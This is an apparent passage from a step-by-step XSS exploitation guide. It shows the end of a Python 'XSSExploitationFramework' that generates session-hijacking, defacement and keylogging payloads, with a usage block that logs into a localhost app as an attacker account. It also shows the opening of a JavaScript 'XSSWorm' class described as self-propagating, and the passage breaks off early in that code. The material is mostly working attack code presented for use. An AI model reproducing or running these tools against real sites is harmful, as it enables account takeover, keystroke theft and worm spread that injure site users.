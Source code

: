         # Phase 3: Generate exploitation payloads
        results['exploitation_payloads'] = {
            'session_hijacking': self.exploit_xss_for_session_hijacking(vulnerable_endpoints[0]),
            'defacement': self.exploit_xss_for_defacement(),
            'keylogging': self.exploit_xss_for_keylogging()
        }
        
        return results
    
    def cleanup(self):
        """Cleanup resources"""
        if self.driver:
            self.driver.quit()

# Usage example
if __name__ == "__main__":
    BASE_URL = "http://localhost:3000"
    
    # Get authentication token
    def get_auth_token(base_url, email, password):
        login_data = {"email": email, "password": password}
        response = requests.post(f"{base_url}/api/auth/login", json=login_data)
        return response.json().get('token') if response.status_code == 200 else None
    
    token = get_auth_token(BASE_URL, "attacker@test.com", "password123")
    
    if token:
        # Initialize XSS framework
        xss_framework = XSSExploitationFramework(BASE_URL, token)
        
        try:
            # Perform comprehensive assessment
            results = xss_framework.comprehensive_xss_assessment()
            
            # Save results
            with open('xss_assessment_results.json', 'w') as f:
                json.dump(results, f, indent=2, default=str)
            
            print(f"\n=== XSS Assessment Complete ===")
            print(f"Results saved to xss_assessment_results.json")
            
        finally:
            xss_framework.cleanup()
    else:
        print("Authentication failed")
```

### Phase 2: Advanced XSS Exploitation

#### Step 2.2: XSS Worm Development

```javascript
// Advanced XSS Worm Implementation
// This code demonstrates how XSS can be used to create self-propagating attacks

class XSSWorm {
    constructor(config = {}) {
        this.config = {
            apiBase: config.apiBase || '/api',
```